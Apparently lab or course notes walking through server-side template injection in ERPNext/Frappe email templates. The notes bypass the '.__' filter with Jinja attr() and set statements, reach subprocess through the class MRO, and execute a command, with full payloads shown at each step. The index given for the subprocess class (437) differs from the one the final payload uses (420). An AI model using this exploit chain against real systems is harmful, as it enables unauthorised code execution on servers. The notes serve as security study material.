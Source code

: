 ## Discovering the Rendering Function
To start to look for templates, we can simply search for "templates" in the administrator login that we've achieved.
The search leads us to "Email Template List".
A page that allows users of ERPNext, to view and create email templates used throughout the application:

![](../../03.%20Images/t5-ss38.png)

Here, we'll insert our SSTI payload in the response field, save the details, and view the template from a user's perspective:

![](../../03.%20Images/t5-ss39.png)

We see the answer 49.
Having confirmed that we can use a basic Jinja template in an email template, we can attempt to build our SSTI payload.

Now that we can easily inspect the output, let's start building our payload. We will replace the "{{7\*7}}" in the template with 
```python
{{ ''.__class__ }} 
```
to determine if we can replicate accessing the class of an empty string as we did in the Python console.

Looking at the response:

![](../../03.%20Images/t5-ss40.png)

We see that we get an error.
To determine why we are running into this, we can look for the error and explore the get_email_template function.
Which leads us to the apps/frappe/frappe/email/doctype/email_template/email_template.py directory.

![](../../03.%20Images/t5-ss41.png)

Reading the function, we see that, before the function is defined, tells Frappe that this method is whitelisted and can be executed via an HTTP request.
Moreover, If the doc argument passed to isinstance function, is a string, the string is deserialized as JSON into a Python object.
Furthermore, the email_template variable is defined, and finally, the next lines render the subject and the body of the template.

To understand why the error is occurring, we can understand the render_template function, which is located in apps/frappe/frappe/utils/jinja.py:

![](../../03.%20Images/t5-ss42.png)

The important part of the function is the if statement:

![](../../03.%20Images/t5-ss43.png)

It seems that the developers have thought about the SSTI issue and attempted to curb any issues by filtering the 
```
".__"
```
characters.
However, we can bypass this.


## SSTI Filter Evasion
Jinja offers one interesting feature called filters.
An example of a filter is the attr() function, which is designed to "get an attribute of an object".
While the filter is expecting the attribute to be accessed with a period followed by two underscores, we could rewrite the payload to use Jinja's syntax, making the "." unnecessary as follows:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
```

The string variable will replace the two single quotes ('') in the original payload. The rest of the values are the various attributes from the SSTI payload.
Now we can start building the SSTI payload string in the email template builder under the defined variables.

We start by getting the class using "{{string|attr(class)}}":

![](../../03.%20Images/t5-ss44.png)

As a result, we get the str class.
Now that we have bypassed the SSTI filtering, we can proceed to get code execution.


## Getting Code Execution
With our filter bypass in place, we can start to use mro, and discover what class and subclass we can use to get code execution.
We start with the following payload:
```python
{{string|attr(class)|attr(mro)}}
```

The response shows us the mro of the class:

![](../../03.%20Images/t5-ss45.png)

If we try to access the index, we get the following error:

![](../../03.%20Images/t5-ss46.png)

This is because Jinja syntax does not work with "\[" characters after a filter.

To do this, we need to change the double curly braces "{{" and "}}" that are used for expressions in Jinja to a curly brace followed by a percentage sign ("{%" and "%}"), which is used for statements. 
We also need to set a variable using the "set" tag and provide a variable name. 
Finally, we need to make a new expression to access index 1:
Our payload will look like this:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{{ mro_r[1] }}
```

![](../../03.%20Images/t5-ss47.png)

With this, we can access the object class.
Now, we need to access subclasses, for that we'll do something similar and our payload will look like so:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r }}
```

The response is as follows:

![](../../03.%20Images/t5-ss48.png)

We get a large list of subclasses that can be accessed and used.
We go through these subclasses, and notice an interesting one which will help us with code execution.

The subprocess class allows us to spawn new processes, connect to their input/output/error pipes, and obtain their return codes:

![](../../03.%20Images/t5-ss49.png)

This means, that the subprocess class can be accessed by index 437, thus our new payload will be:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[437] }}
```

![](../../03.%20Images/t5-ss50.png)

With this, we can pass the arguments, and get code execution with the following payload:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/test"]) }}
```

Executing the payload, we find our test file, inside the tmp directory, this means we have code execution:

![](../../03.%20Images/t5-ss51.png)